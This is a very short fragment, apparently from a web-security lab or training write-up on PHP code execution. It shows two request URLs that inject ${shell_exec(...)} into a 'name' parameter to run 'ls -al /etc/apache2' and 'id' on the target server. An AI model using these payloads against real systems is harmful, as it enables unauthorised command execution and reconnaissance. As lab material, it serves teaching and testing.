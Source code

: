 PHP
---
http://xxx.xxx.xxx.xxx/codeexec/example1.php?name=hacker%7b$%7bshell_exec('ls%20-al%20/etc/apache2')%7d%7d
http://xxx.xxx.xxx.xxx/codeexec/example1.php?name=hacker%7b$%7bshell_exec('id')%7d%7d
